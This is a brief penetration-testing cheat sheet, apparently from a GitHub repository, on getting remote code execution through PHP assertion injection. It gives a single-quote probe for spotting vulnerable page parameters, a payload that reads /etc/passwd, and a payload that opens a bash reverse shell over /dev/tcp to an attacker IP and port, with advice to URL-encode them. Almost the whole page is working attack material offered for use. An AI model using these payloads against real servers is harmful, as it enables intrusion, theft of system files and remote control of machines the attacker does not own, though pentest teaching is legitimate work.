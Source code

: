 # PHP Assertions RCE

You can achieve RCE if you can identify this type of vulnerability.

### 1) Identification

On a parameter, try to add a single quote (')

    http://domain.local/index.php?page='

If you get a 500 internal server error, it is most likely vulnerable to RCE.

### 2) Payloads to use

Read files from the machine

    ' and die(show_source('/etc/passwd')) or '

Get a reverse shell

    ' and die(exec('bash -c "/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1"')) or '

## You might need to URL encode the payload for it to work (encode special characters too!)
